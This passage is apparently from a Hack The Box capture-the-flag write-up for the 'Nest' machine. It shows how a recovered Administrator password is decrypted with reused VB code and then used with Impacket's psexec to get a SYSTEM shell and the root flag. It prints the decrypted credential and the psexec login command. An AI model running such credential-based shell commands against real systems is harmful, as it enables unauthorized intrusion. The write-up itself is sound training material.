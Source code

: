 Specifically, we are interested in the decryption function.

`CR.RD(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);`

### Password Decryption

Now, let's re-use the VB code used for the first decryption. We just need to replace the parameters according to the function we reversed from HqkLdap.exe.

In **Utils.vb**, replace:

`Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)`

with:

`Return Decrypt(EncryptedString, "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256)`

In **Program.vb**, replace:

`Dim Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")`

with:

`Dim Password = Utils.DecryptString("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=")`

Run the program again and you'll find the decrypted password.

* XtH4nkS4Pl4y1nGX

## Getting A Root Shell

With the decrypted password, let's get a system shell with Impacket's psexec.

```
root@kali:~/htb/nest# ./psexec.py Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
<SNIP>
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

We can then get the root flag easily.

## Ending Thoughts

This box is fun. In particular, it's a great box to practise SMB enumeration.
